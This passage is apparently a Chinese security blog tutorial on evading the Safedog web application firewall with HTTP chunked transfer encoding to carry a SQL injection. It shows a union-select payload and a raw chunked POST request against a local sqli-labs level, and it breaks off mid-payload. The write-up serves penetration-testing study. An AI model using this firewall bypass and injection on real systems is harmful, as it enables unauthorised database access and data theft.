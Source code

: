    0  
      
    

![](https://gitee.com/fuli009/images/raw/master/public/20230303190504.png)

说明是可以识别分块传输的东西，那么我们就可以构造payload来看是否可以绕过waf。

# 绕过安全狗的sql注入：

这里先解决一下绕过安全狗的方式，在常见的方式中，我们都采用垃圾字符填充的方式来绕过安全狗，虽然效果很好，但是较为复杂，也容易出现被狗咬伤的情况，所以为了解决这一现状，小秦同学翻阅之后发现了分块传输的方式来绕过安全狗。但是分块传输目前来看只能适用于post请求。get请求还是比较难说。

### 以sql-labs为例：

在sqli-labs的第十一关，我们发现了可以用post请求。先正常看看过滤哪些字符，这里开门见山，直接把'union select
(database()),2#。这个东西进行了过滤  
![](https://gitee.com/fuli009/images/raw/master/public/20230303190505.png)  
咱们可以尝试使用分块传输的方式来进行绕过。这里在请求头中添加。

    
    
    Transfer-Encoding: chunked  
    这个东西，然后进行分块即可。  
    

#### 读取数据库名

    
    
    POST /sqli-labs-master/Less-11/ HTTP/1.1  
    Host: 192.168.172.161  
    Content-Length: 251  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    Origin: http://192.168.172.161  
    Content-Type: application/x-www-form-urlencoded  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Referer: http://192.168.172.161/sqli-labs-master/Less-11/  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9  
    Connection: close  
    Transfer-Encoding: chunked  
      
    1  
    u  
    4  
    name  
    1  
    =  
    1  
    &  
    2  
    pa  
    4  
    sswd  
    1  
    =  
    3  
    %27  
    2  
    un  
    1  
    i  